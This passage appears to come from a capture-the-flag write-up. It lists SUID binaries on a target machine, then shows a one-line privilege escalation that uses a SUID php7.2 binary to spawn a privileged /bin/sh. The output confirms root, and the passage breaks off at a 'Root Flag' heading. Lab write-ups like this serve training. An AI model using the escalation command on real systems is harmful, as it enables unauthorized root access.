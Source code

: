 /usr/bin/gpasswd

/usr/bin/php7.2

/usr/bin/sudo

/usr/bin/chsh

/usr/bin/chfn

/bin/ping

/bin/fusermount

/bin/mount

/bin/ping6

/bin/umount

/bin/su

#### Escalation

/usr/bin/php7.2 is then used to summon a new shell by executing an OS command
/bin/sh with a -p flag to make it privileged..

/usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

\<ginals/49/01\$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

\# whoami

whoami

root

#### Root Flag
